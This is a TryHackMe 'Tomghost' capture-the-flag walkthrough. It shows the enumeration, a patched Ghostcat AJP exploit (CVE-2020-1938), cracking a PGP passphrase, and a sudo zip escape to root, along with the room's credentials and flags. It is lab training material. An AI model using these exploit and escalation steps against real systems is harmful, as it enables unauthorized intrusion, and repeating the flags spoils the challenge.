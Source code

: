 ```yaml
---
title: TryHackMe - Tomghost
date: 2022-11-25 14:35:00 +0530
categories: [TryHackMe]
tags: [tryhackme, Easy]
---
```


-------
Room: https://tryhackme.com/room/tomghost

Difficulty : Easy

As always, starting off the test with adding the machine IP to /etc/hosts.

## Enumeration

Starting Nmap scan.

```console
$ sudo nmap -Pn tom.thm 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-25 21:59 EST
Nmap scan report for tom.thm (10.10.115.122)
Host is up (0.15s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
8009/tcp open  ajp13
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 1.89 seconds

$ sudo nmap -Pn -p22,53,8009,8080 -sC -sV tom.thm
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-25 22:00 EST
Nmap scan report for tom.thm (10.10.115.122)
Host is up (0.15s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3c89f0b6ac5fe95540be9e3ba93db7c (RSA)
|   256 dd1a09f59963a3430d2d90d8e3e11fb9 (ECDSA)
|_  256 48d1301b386cc653ea3081805d0cf105 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.98 seconds
```

From above scan, there are some points to note.
1. Port `22` is open, to connect to the machine using **SSH**.
2. Port `8080` is run by apache tomcat **v9.0.30**.
3. Port `8009` is run by apache Jserve protocol **(APJ)**.

I ran **gobuster** to check if any juicy directories are present. But there are none.

```console
$ gobuster dir -u http://tom.thm:8080 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://tom.thm:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/11/25 22:05:23 Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

```console
$ gobuster dir -u http://tom.thm:8080 -w ~/Github/SecLists/Discovery/Web-Content/ApacheTomcat.fuzz.txt
//examples            (Status: 302) [Size: 0] [--> /examples/]
//examples/jsp/index.html (Status: 200) [Size: 14245]
//examples/servlets/index.html (Status: 200) [Size: 6596]
//manager             (Status: 302) [Size: 0] [--> /manager/]
//manager/deploy?path=foo (Status: 403) [Size: 3446]
//manager/text        (Status: 403) [Size: 3446]
//manager/jmxproxy    (Status: 403) [Size: 3446]
//manager/html        (Status: 403) [Size: 3446]
//manager/html/       (Status: 403) [Size: 3446]
//manager/status      (Status: 403) [Size: 3446]
//RELEASE-NOTES.txt   (Status: 200) [Size: 6898]
//examples/jsp/snp/snoop.jsp (Status: 200) [Size: 574]
```

## Initial exploitation

Since i could not find anything, I searched for Apache Tomcat exploits for the given version in `searchsploit`.

```console
$ searchsploit tomcat
```

Although there were some results, none of them matched to the given version of **apache tomcat**. But the results showed an exploit for **Apache Jserve Protocol (AJP)**. This is about **Ghostcat** vulnerability with ` CVE-2020-1938`. So I copied it to my local directory.

```console
searchsploit -m 48143
```

There were some python errors while running this exploit. I had to make some changes for it to work.
1. Instead of `bufsize`, use `buffering=0`.
2. The last print statement needs `b""`.

Now run the exploit.
```console
$ python 48143.py tom.thm

SNIPPED
b'<?xml version="1.0" encoding="UTF-8"?>\n
<display-name>Welcome to Tomcat</display-name>\n  <description>\n     Welcome to GhostCat\n\t
skyfuck:8730281lkjlkjdqlksalks\n  
</description>\n\n</web-app>\n\x00'
```

> skyfuck:8730281lkjlkjdqlksalks

We got some creds from exploiting. I thought these were some hashes, but no. It is `skyfuck's` password to SSH.

`ssh skyfuck@tom.thm`

There was no **user.txt** in __skyfuck's__ home directory.  So i ran **linpeas.sh**.


Now, We know 3 users are there. and _user.txt_ is present **merlin's** home directory.
```console
$ cat /home/merlin/user.txt
THM{GhostCat_1s_so_cr4sy}
```

From linpeas output, we have two files of interest in skyfuck's home directory.
1.  tryhackme.asc
2. credential.pgp

**tryhackme.asc** seems to be some sort of PGP private key. Lets convert it into gpg hash.

```console
$ gpg2john tryhackme.asc > hash && cat hash

File tryhackme.asc
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
```

As we have the hash now, lets use **john** tool to check if this hash matches with any other hash in **rockyou.txt** wordlist.

```console
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
alexandru
```

we got the match to hash of `alexandru`. Let's pass this word as passphrase to decrypting the **credential.pgp** file on he tom.thm machine.

``` console
$ gpg --import tryhackme.asc
$ gpg --list-secret-keys
$ gpg --output ./d.txt --decrypt ./credential.pgp
$ cat d.txt
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123jskyfuck@ubuntu
```

> merlin : asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j

Exit the current SSH session to **tom.thm** machine and login as `merlin` with found password.

`ssh merlin@tom.thm`

## Privilege Escalation

Let's see, what can `merlin` run as `root`.
```console
$ sudo -l
SNIPPED
(root : root) NOPASSWD: /usr/bin/zip
```

`merlin` can run **zip** as `root`. Lets check if we have some privilege escalation here, in [GTFO bins](https://gtfobins.github.io/gtfobins/zip/#sudo).  we do. 

```console
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

Running the above code, will escalate our current shell to root privileges. We can find the flag in `/root/root.txt` directory.